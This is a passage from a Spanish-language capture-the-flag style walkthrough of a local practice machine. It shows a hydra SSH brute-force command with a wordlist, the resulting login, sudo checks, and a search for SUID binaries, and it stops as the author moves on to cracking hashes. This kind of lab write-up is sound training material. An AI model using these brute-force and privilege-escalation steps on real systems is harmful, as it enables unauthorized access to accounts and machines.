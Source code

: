 ![image](https://github.com/user-attachments/assets/a1bf7cbd-7534-4f44-af63-6e376591bb5e)

--------------
## Explotación

Con el wordlist obtenido en el fichero **client_list.txt** procedemos a realizar un ataque de fuerza bruta con **hydra**:

```shell
hydra -l cachopin -P wordlists.txt 172.17.0.2 ssh
```

Logramos obtener credenciales válidas para el servicio **SSH** y procedemos a ingresar a la máquina víctima:

```shell
ssh cachopin@172.17.0.2
```

------------------------------
## Escalando privilegios

Verificamos si es posible ejecutar algún fichero como **root** con **sudo -l**:

```shell
sudo -l
------------------------------------------------
Sorry, user cachopin may not run sudo on 13c07d7503da.
```

Procedemos a verificar los ficheros con el [**setuid**](https://es.wikipedia.org/wiki/Setuid) habilitado

```shell
find / -perm -4000 -type f 2>/dev/null
------------------------------------------------
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/local/bin/privileged_exec
/usr/local/bin/backup.sh
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/bin/su
/bin/mount
/bin/ping6
/bin/ping
/bin/umount
```

Sin embargo, no encontramos mecanismo para escalar privilegios, procedemos a intentar descifrar los hashes evidenciados en la etapa de enumeración:

